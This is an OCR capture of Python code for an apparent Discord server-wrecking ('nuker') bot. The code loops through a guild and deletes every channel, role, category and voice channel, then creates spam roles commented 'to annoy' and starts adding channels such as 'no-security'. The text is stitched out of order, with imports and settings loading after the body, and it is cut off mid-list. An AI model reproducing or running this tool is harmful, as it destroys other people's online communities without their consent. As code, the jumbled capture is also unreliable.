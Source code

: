         
        # Delete existing channels and categories
        for channel in ctx.guild.channels:
            await channel.delete()
            print(f"\033[1mDeleted Channel: {channel.name}.\033[0m")
        
        print("\033[1mAll Channels Are Done Being Deleted.\033[0m")

        for role in ctx.guild.roles:
          try:
           await role.delete()
           print(f"\033[1mDeleted Role: {role.name}.\033[0m")
          except discord.errors.HTTPException as e:
            if e.code == 50028:  # Invalid Role error code
              print(f"\033[1mRole '{role.name}' is invalid and cannot be deleted.\033[0m")



        
          
        for category in ctx.guild.categories:
            await category.delete()
            print(f"\033[1mDeleted Category: {category.name}.\033[0m")
        
        for voice_channel in ctx.guild.voice_channels:
            await voice_channel.delete()
        
        print("\033[1mAll Categories Have Been Deleted.\033[0m")

# create roles to annoy
        for _ in range(role_amount):
          asd = await ctx.guild.create_role(name=random.choice(role_names))
          print(f"\033[1mCreated Role: {asd}.\033[0m")

    guild = ctx.guild
    channel_names = []

    amount = record["channel_range"]
    for i in range(amount):
        channels = [
          "no-security",
    import discord
from discord import app_commands
import asyncio
import time
import random
import emoji
import time
import json
import requests


  
with open("settings.json", "r") as f:
  record = json.load(f)
